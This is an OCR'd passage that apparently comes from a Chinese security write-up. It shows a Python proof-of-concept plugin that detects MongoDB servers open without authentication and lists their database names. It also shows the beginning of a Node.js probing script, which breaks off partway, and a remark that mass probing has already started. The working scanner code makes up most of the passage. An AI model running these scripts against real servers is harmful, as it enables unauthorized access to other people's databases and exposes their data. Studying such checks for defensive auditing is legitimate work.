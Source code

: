 ```python
        'protocol': {
            'name': 'http',
            'port': [28017],
            'layer3_protocol': ['tcp'],
        },
        # 漏洞相关信息
        'vul': {
            'app_name': 'Mongodb',
            'vul_version': ['*'],
            'type': 'Information Disclosure',
            'tag': ['Mongodb信息泄露漏洞', '默认空口令未授权访问漏洞', '27017/28017端口'],
            'desc': 'mongodb启动时未加 --auth选项，导致无需认证即可连接mongodb数据库，从而导致一系列安全问题。',
            'references': ['N/A',
                           ],
        },
    }


    @classmethod
    def verify(cls, args):
        verify_url = args['options']['target']
        ip_addr = urlparse.urlparse(verify_url).netloc
        if args['options']['verbose']:
            print '[*] Connect mongodb: ' + ip_addr + ':27017'
        try:
            conn = pymongo.MongoClient(ip_addr, 27017, socketTimeoutMS=3000)
            dbname = conn.database_names()
            if dbname:
                args['success'] = True
                args['poc_ret']['vul_url'] = ip_addr + ':27017'
                args['poc_ret']['database_names'] = dbname
        except Exception, e:
            print str(e)
            args['success'] = False
            return args
        return args

    exploit = verify


if __name__ == '__main__':
    from pprint import pprint

    mp = MyPoc()
    pprint(mp.run())
  
```

正当准备开始扫描的时候，F4说他写好了node.js的POC脚本并且已经开始了探测：

```javascript
// Get url list
var FilePath = "";
var lineread = require("line-reader");
var mongoose = require('mongoose');
function conn(host,callback){
    var databaseUrl = 'mongodb://'+host;
    var options = { server: { socketOptions: { connectTimeoutMS: 4000 }}};
    var db = mongoose.createConnection(databaseUrl, options);
    db.on('error', function(error) {
        //console.log(error)
        db.close();
        return;
    });
```